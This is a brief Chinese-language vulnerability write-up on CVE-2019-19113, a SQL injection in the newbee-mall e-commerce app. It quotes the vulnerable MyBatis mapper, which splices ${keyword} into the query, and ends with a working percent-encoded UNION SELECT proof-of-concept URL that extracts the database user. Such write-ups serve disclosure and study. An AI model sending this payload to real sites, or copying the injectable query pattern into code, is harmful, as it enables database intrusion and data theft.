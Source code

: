 ```yaml
---
title: "CVE-2019-19113）Newbee-mall新蜂商城sql注入"
id: zhfly3037
---
```


# （CVE-2019-19113）新蜂商城sql注入

## 一、漏洞简介

newbee-mall 2019-10-23之前版本中的main/resources/mapper/NewBeeMallGoodsMapper.xml文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

Newbee-mall 2019-10-23之前版

## 三、复现过程

\src\main\resources\mapper\NewBeeMallGoodsMapper.xml

```
 <select id="findNewBeeMallGoodsListBySearch" parameterType="Map" resultMap="BaseResultMap">
        select
        <include refid="Base_Column_List"/>
        from tb_newbee_mall_goods_info
        <where>
            <if test="keyword!=null and keyword!=''">
                and (goods_name like CONCAT('%','${keyword}','%') or goods_intro like CONCAT('%','${keyword}','%'))
            </if>
            <if test="goodsCategoryId!=null and goodsCategoryId!=''">
                and goods_category_id = #{goodsCategoryId}
            </if>
        </where>
        <if test="orderBy!=null and orderBy!=''">
            <choose>
                <when test="orderBy == 'new'">

```
 order by goods_id desc
            &lt;/when&gt;
            &lt;when test="orderBy == 'price'"&gt;

                order by selling_price asc
            &lt;/when&gt;
            &lt;otherwise&gt;

                order by stock_num desc
            &lt;/otherwise&gt;
        &lt;/choose&gt;
    &lt;/if&gt;
    &lt;if test="start!=null and limit!=null"&gt;
        limit #{start},#{limit}
    &lt;/if&gt;
&lt;/select&gt; 
``` 
```

如果使用$ {keyword}拼接sql语句，则存在SQL注入的风险

poc：

```
http://0-sec.org:28089/search?goodsCategoryId=&keyword=%5C%25%27%29%29%20%55%4E%49%4F%4E%20%41%4C%4C%20%53%45%4C%45%43%54%20%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%43%4F%4E%43%41%54%28%30%78%37%31%37%36%36%32%37%38%37%31%2C%49%46%4E%55%4C%4C%28%43%41%53%54%28%43%55%52%52%45%4E%54%5F%55%53%45%52%28%29%20%41%53%20%43%48%41%52%29%2C%30%78%32%30%29%2C%30%78%37%31%36%32%37%38%36%62%37%31%29%2C%4E%55%4C%4C%2C%4E%55%4C%4C%23&orderBy=default 
```